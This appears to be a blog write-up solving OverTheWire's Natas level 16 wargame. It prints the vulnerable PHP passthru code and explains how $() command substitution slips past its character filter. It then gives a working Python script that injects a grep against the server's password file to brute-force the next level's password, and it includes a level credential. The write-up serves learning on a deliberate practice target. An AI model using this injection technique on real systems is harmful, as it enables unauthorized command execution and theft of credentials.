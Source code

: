 ```yaml
---
layout: post
title:  "Natas Level 16"
date:   2015-10-01 10:36
categories: natas wargame web overthewire
author: Nate
---
```

![natas16](/images/natas16.png)

Natas 16 is a more secure version of Natas 9 and 10.  In this challenge, the server-side code the challenge author provides us allows a passthru but filters on most characters in bash that would allow us to do much at all.  Take a look at the source code the challenge author provides us:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
  if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
  } else {
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

If you pay close attention to the preg_match function above, it will return a positive result if any of the following characters are found in the input we provide to the form: <pre>& | & ` \' "</pre>

Since the passthru function allows us to execute arbitrary commands on the bash shell, this prevents us from doing many things to include the following: multiple commands, piping output from one command to the other, weak and strong quoting (double and single quotes), boolean/logical AND ( & ) and OR ( | ) operators.

Since you cannot pass a single or double quote character into the input, this also prevents using character encoding tricks. (base64 or unicode translation)

Although the backtick character ` is filtered, it's alternative format $() is still allowed for command substitution.  If you're not familiar with command substitution, check out the GNU Manual [here](http://www.gnu.org/software/bash/manual/bash.html#Command-Substitution).

This challenge is solved by concatenating the output of an inner grep command with the output of an outer grep command.  If we receive output on the page, we have a negative result.  If we receive no output, we've guessed a correct character in the password and can continue.

The command is as follows:

{% highlight bash %}
grep -i \"$(grep -E ^a.* /etc/natas_webpass/natas17)hacker\" dictionary.txt
{% endhighlight %}

How does this work, you ask? Well lets break this command down into smaller pieces:

1) First, the shell will execute the inner grep command:
{% highlight bash %}
grep -E ^a.* /etc/natas_webpass/natas17
{% endhighlight %}

Here we're telling grep to interpret our pattern as an extended regular expression.  The ^ operator tells grep that we're looking for any passwords that begin with the character(s) that directly follow it. The second argument is the password file we want grep to parse.

2) If grep finds a password that starts with "a", it'll return that value and our inner command will be substituted with the return value.  We know that the string "hacker" is a word in the dictionary.txt file.  If no results are returned from the inner grep command, nothing will be prepended to "hacker".  If the inner grep command finds a positive match, however, the return value will be prepended to "hacker" and the outer grep command will fail to find any results.  This is because there is no word "ahacker" in dictionary.txt.

Thus, a negative or blank result from our outer command indicates there was POSITIVE result on the inner command (which indicates the character we just guessed was correct.)

Armed with this knowledge, we can whip up a quick Python script very similar to our last two challenge levels.  We'll brute force our password by running through every alphanumeric character and appending the character that caused a blank result.  Every time we append a character, we'll break out of the inner loop that iterates over all characters, and begin a new iteration on the outer loop that iterates over passwor length.

Consider the code below:

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue
{% endhighlight %}

The outer loop assumes a password length of 34 characters, and the inner loop iterates over every alphanumeric character.  The uri variable is defined as the GET string where the needle is our inner GREP command.  We make the GET request and parse the result text which is the html page source.  If we see "hackers" in the output, we had a positive outer loop result, and thus a negative inner loop result.  We only append characters to our password when the output was blank as I stated earlier.

Once we've written the script, we'll run it and the final character string should be our password for the next challenge level.

![natas16_execution](/images/natas16_execution.png)

That's it.  The final character string at the bottom was in fact the correct password for Natas 17.

